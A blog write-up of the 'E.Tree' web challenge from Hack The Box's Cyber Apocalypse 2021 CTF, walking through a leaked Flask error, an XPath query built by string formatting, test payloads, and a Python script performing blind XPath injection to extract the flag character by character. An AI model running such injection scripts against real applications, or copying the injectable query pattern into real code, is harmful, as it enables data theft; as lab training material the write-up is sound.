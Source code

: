 ```yaml
---
slug: e-tree-cyberapocalypse-2021-ctf
title: E.Tree - Cyberapocalypse 2021 CTF
description: This is a writeup for the E.Tree challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the E.Tree challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?

<!-- truncate -->

### Recon

We are provided with an XML file, which indicate where the flag will be hidden

```xml
<?xml version="1.0" encoding="utf-8"?>

<military>
    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        
[REDACTED]
        
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
        </staff>
        
    </district>

    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            
        </staff>
    </district>
</military>
```

We also have access to a site, which has a form connected to a POST endpoint  `/api/search`. Giving it a string value would return either that it has found an entry or not.

It gets interesting though, if we pass to it something which starts with an apostrphe `'`. If we pass that through Burpsuite for example, we will receive a response, that we've broken the application, with a very nice detailed error log.

![error log](/content/images/2021/04/xpath-error.png)

This log reveals to us that the application is running Flask, but also more importantly it gives us the query (in fact the whole function) that it's running to respond to our POST request.

```python
#### File "/app/app.py", line _42_, in `search`

@app.route("/api/search", methods=\["POST"\])
def search():
 name = request.json.get("search", "")
 query = "/military/district/staff\[name='{}'\]".format(name)

 if tree.xpath(query):
 	return {"success": 1, "message": "This millitary staff member exists."}

 return {"failure": 1, "message": "This millitary staff member doesn't exist."}
 ```

We can now clearly see that we're faced with the challenge of XPATH injection, and we also know where it occurs.

### Analysis

To test this out, I built the following data for the request, which would return true if the `selfDestructCode` is to be found within the structure of our XML target.

```
{"search": f"x' or count(/selfDestructCode)=1 or 'x'='y"}
```

And since this gave us the a true response, we can now start building a request to test for a flag. For that, we are going to use another boolean-returning function, namely `starts-with`.

### Solution

Since this will be a blind XML injection, we are going to have to be guessing each following symbol in our flag one by one, from a list of printable characters. Thankfully, we know how our flag starts, so this shouldn't be too difficult logistically. But, we have to not forget, that according to the XML file we were supplied with, the flag is split into two parts.

```xml
<selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
```

```xml
<selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
```

So let's write up the logic flow of our solution:

1. We generate a list of printable characters to test for.
2. We start a loop, in which we test whether the flag starts with `CHTB{ + some_char`.
3. If it does, we add `some_char` to our known flag, and continue onto the next character
4. If we run through the whole list of printable characters, without finding a match, we assume we've found the end of the string.
5. We move onto the second part of the flag, but this time we have no knowledge of how it starts
6. Repeat the loop process, and terminate with the same condition as in `4.`

```python
#!/usr/bin/env python

import requests
import string

url = 'http://138.68.179.198:30435/api/search'

listOfPrintable = list(string.printable)

def getFlagStartingWith(flag):

  while True:
    foundOneNew = False
    for char in listOfPrintable:
      # have to assume the second part doesn't also start with a capital C
      if len(flag) == 0 and char == 'C':
        continue
      flagAttempt = flag + char
      data = {"search": f"x' or //staff[starts-with(selfDestructCode, '{flagAttempt}')] or 'x'='y"}
    
      r = requests.post(url, json=data)

      check = '"success"' in r.text
      if check == True:
        flag += char
        foundOneNew = True
        print(flag)
    if foundOneNew == False:
      break
  return flag

firstPartOfFlag = getFlagStartingWith('CHTB{')
secondPartOfFlag = getFlagStartingWith('')
flag = firstPartOfFlag + secondPartOfFlag
print(flag)
```

After a bit, this will spit our flag out

```
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```

import DonateCard from '@site/src/components/DonateCard';

<DonateCard/>